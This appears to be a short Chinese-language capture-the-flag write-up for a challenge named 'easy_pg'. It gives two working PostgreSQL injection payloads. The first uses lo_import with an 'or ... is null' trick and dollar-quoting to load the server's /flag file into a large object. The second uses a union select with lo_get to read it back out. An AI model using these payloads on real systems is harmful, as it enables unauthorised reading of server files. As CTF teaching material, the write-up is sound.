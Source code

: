 ## easy_pg

### 考点：

`postgresql`注入

##  wp



![image-20220525121925509](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/image-20220525121925509.png)

没有回显，无法使用`PG_READ_FILE`报错回显读文件的函数

考察使用`postgre largeobject`特性进行读文件

如果使用常规的`|| lo_import`会因为报错而无论如何都无法将文件存进`largeobct`

这里使用 `or xxx is null trick`绕过

将读取到的flag文件内容存入大对象中，单引号被用`$$`替换

```
email="stud3nt@qq.com' or lo_import($$/flag$$,11110) is null --";
```

最后使用`lo_get`将结果读出

```
email="x' union select encode(lo_get(11110),$$escape$$),NULL --+#";
```

